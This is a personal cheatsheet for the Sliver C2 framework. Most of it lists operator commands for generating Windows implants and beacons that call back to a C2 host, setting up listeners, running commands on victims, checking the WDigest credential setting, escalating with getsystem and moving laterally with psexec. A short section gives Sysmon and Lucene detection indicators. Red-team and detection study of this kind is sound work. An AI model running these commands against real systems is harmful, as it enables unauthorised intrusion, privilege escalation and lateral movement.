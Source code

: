# Sliver Cheatsheet

[Sliver Wiki](https://github.com/BishopFox/sliver/wiki/)
```go
// Depending on install
// Sometime not ideal... issues..
sudo sliver
sudo su - ; /root/sliver-server

// Display help
help <command>

// For multi-client
multiplayer 
new-operator
// Connect with Client

// View all implants
implants
// Generate Beacons and Sessions
generate
// Choice one C2 endpoint using:
// --wg is wireguard 
--mtls --wg --http --dns
// Session are sessions opsec unsafe
generate --mtls domain.com --os windows --save 
// Beacons are asychronous - more opsec way they sleep and check 
generate beacon --mtls 10.10.10.10:6969 --arch amd64 --os windows --save /path/to/directory
// Regenerate
regenerate
// listeners
// Do not accept interfaces as arguemnts like metasploit
mtls -L <lhost> -l <lport> 
wg
https
http
dns
// Jobs to view and manage listners
jobs
jobs -k <job number>
jobs -K <kill all jobs> // -F for force
// Beacons
// Show all beacons, information and checkin time
beacons 
// Remove beacons that missed their last checking by 1 hour or more 
beacons prune  
// Show all bbeacno tasks - task are FIFO
tasks
// Drop down to select with arrow keys
use 
// Interact with sessions
use <id >// Create an interactive sessions
// Inrteract with a session
session -i $id
// CReate interactive session from beacon and wait
interactive
execute -o <command>
execute -o icacls "c:\Windows\Temp"
// reg query the WDIGEST
execute -o reg query HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogonCredential

// Armory
// Within a sessions run a armory package eg:
seatbelt -h
sharpup audit

// Shell
Shell // Comes with an OPSec warning by default for good reason
// Exit shell, be patient wait 30 seconds
exit

// With Administrative and adble to get SeDebugPrivilege - by default uses spool.svc to getsystem 
getsystem

// psexec is embedded into sliver good for lateral movement
psexec --profile BEACON <hostname>
```

Armory
```go
// Because why not
armory install all 
```

Shellcode generation
```go
// Disable shikata ga nai
-f shellcode -G
```

## Detecting Sliver

Sliver beacon detection:
```powershell 
# Requires Sysmon2
# look for default nomanclature, but this is easily customised -save /path/name.exe
WORD_WORD.exe 

powershell.exe -NoExit -Command[Console]::OutputEncoding=[Text:UTF8Encoding]:UTF8
# by default uses spool.svc to getsystem 
spool.svc
```

`Cyberchef` -> `Regular Expresssion -> Regex: Sliver`  then upload file that you suspect is a Sliver binary. Make sure you set the recipe first or you will crash your browser.

```json
// Language MUST BE: lucene
event.code:8 AND winlog.event_data.TargetImage:(*spoolsv*) AND winlog.event_data.TargetUser:(*
NT* AND *AUTHORITY\\SYSTEM*)
```
## References

[Official Armory](https://github.com/BishopFox/sliver/wiki/Armory#the-official-armory)
[dominicbreuker - Stagers](https://dominicbreuker.com/post/learning_sliver_c2_06_stagers/)
[Really Good Cyber attack & defense video](https://www.youtube.com/watch?v=izMMmOaLn9g) , 